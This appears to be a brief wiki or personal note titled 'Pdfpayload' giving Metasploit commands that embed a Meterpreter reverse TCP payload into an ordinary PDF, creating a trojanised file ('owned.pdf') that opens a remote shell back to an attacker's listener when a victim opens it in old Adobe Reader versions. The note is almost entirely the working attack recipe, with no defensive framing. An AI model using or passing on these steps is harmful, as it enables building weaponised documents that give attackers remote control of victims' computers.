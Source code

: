 <!-- TITLE: Pdfpayload -->
<!-- SUBTITLE: A quick summary of Pdfpayload -->

use exploit/windows/fileformat/adobe_pdf_embedded_exe
set FILENAME owned.pdf
set INFILENAME /path/original.pdf
set OUTPUTPATH /path/
set id 0 (sets Target)
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 9999

Demonstration video shows it working on Adobe 8.x and 9.x for windows with no prompt.
(link to video would be good, but I didn't save it)
